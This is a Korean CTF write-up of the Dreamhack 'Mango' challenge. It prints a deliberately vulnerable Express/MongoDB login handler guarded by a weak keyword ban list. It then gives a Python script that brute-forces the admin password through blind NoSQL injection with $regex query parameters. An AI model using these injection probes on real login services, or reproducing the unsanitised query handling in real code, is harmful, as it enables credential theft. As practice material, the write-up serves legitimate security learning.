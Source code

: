```yaml
---
title: "[2025-07-14] Mango"
excerpt: "NoSQL Injection"

categories:
  - Problem
tags:
  - [NoSQL Injection]

permalink: /Problem/[2025-07-14] Mango/

toc: true
toc_sticky: true

date: 2025-07-14
last_modified_at: 2025-07-14
---
```


## 🦥 본문

```jsx
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}

app.get('/login', function(req, res) {
    if(filter(req.query)){
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});

app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');

```

- 문제의 flag는 admin의 비밀번호이다.
- Blind NoSQLi를 통해 비밀번호를 알아낸다
    - 비밀번호가 정규식에 맞으면 admin이 나타나고 아니면 undefined가 나타난다
    - 아이디 admin 자체는 필터링하므로 dmin이나 [ad.in](http://ad.in) 같은 방식을 사용한다

### 풀이

```
import requests, string

HOST = 'http://host3.dreamhack.games:20622'
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''

for i in range(32):
    for ch in ALPHANUMERIC:
        response = requests.get(f'{HOST}/login?uid[$regex]=dmin&upw[$regex]=D.{{{flag}{ch}')
        if response.text == SUCCESS:
            flag += ch
            break
    
```

해당 코드로 브루트 포싱을 해서 플래그를 얻을 수  있는 간단한 문제였다.
